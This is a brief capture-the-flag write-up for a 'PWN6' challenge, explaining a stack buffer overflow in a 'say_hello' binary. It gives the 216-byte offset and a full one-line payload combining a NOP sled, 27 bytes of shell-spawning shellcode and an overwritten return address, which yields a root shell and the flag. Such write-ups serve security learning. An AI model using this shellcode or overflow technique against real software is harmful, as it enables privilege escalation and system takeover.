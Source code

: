 # This writeup if from the GiraffeCTF which was called "PWN6".
 This task was quiet easy as finding where the intruction pointer was overwritten. The instruction pointer was hit at offset
216 bytes.
> ./say_hello $(python -c 'print "\x90"*216')
## After debugging i found where the start of the nopsled was in memory, i quickly looked a shellcode to use which spawns root.
The shellcode was 27 bytes. I calculated how much i had to cut the nopsled down i had to go by doing 216-27 which turned to 189 bytes.
## Now, Nops + shellcode + eip and the input looked like this:
> ./say_hello $(python -c 'print "\x90"*189+"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"+"\x70\xed\xff\xff\xff\x7f"')

Executing it allowed me to open a file as root which contained the flag being
> "FLAG{WhoKilledUncleBen?}"
## Thanks for reading.

